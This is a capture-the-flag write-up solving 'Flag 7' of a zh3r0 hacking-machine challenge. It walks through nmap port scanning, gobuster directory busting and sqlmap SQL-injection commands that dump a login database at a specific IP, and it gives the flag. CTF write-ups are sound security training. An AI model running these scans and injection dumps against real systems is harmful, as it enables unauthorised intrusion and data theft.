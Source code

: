```yaml
---
layout: post
title: "Flag 7"
author: "shreyas-sriram"
---
```


# Category
Subset of subset of hacking machines challenges

# Challenge
## Flag 7
We are given a URL - ``` hackit.zh3r0.ml ```

# Solution

> Optional: Find IP address of the given domain using **ping**

Since it is a machine, begin with a full port scan

``` nmap -T4 -sC -sV -p- hackit.zh3r0.ml ```

> Note: Not sure if I used the right [options], run ``` nmap --help ``` for better understanding and optimisation

This reveals all the open ports and services running on each port. Also notice that the services running are all mixed up.

```
22/tcp    open     http
25/tcp    filtered smtp
99/tcp    open     ssh
324/tcp   open     ftp
4994/tcp  open     unknown
11211/tcp filtered memcache
```

* Since ``` http ``` is running on port ``` 22 ```, it will be restricted by the browser and we will not be able to access it directly. There are two ways around this problem.
	1. Allow restricted ports in Firefox Browser
		* Go to ``` about:config ``` in Firefox address bar
		* Add the string name and value as ```   (network.security.ports.banned.override, 22) ```
		* Access ``` http://hackit.zh3r0.ml:22/robots.txt ```
	2. Access the webpage through cURL or wget
	``` curl http://hackit.zh3r0.ml:22/robots.txt ```
	``` wget http://hackit.zh3r0.ml:22/robots.txt ```
* There is a clue which has something to do with **ads**. There are two ways to go about this.
	1. Make a guess to visit ``` http://hackit.zh3r0.ml:22/ads.txt ```
		* Obtain a string encoded in ``` Base 62 ``` (Damn, these aren't the bases I am aware of :tired_face:)
		* Use https://gchq.github.io/CyberChef/ to decode and get another webpage ``` /index2.html ```
		* This page contains a login
	2. Use directory busting tools on ``` http://hackit.zh3r0.ml:22/ ```
		* ``` gobuster dir -u http://hackit.zh3r0.ml:22/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm ```
		* ``` dirbuster ``` - GUI tool
		* This also reveals ``` /index2.html ``` without getting to ``` ads.txt ```
* The login in page ``` /index2.html ``` seems to be vulnerable to **SQL Injection**, we can exploit it using ``` sqlmap ```
	* To retrieve databases, use the command
	``` sqlmap -u http://139.59.3.42:22/ --data="username=f4k3&amp;password=fl4g" --method POST --dbs --batch ```
	* There are 4 databases, of which **users** seems interesting
	* To retrieve all information about a database, use the command
	``` sqlmap -u http://139.59.3.42:22 --data="username=f4k3&amp;password=fl4g" --method POST -D users --dump all --batch ```
	* This gets us **Flag 7**
	``` zh3r0{Dangit_you_are_good!} ```
	> Note: **sqlmap** takes quite sometime, so grab a snack while you watch the flag unfold :cookie:
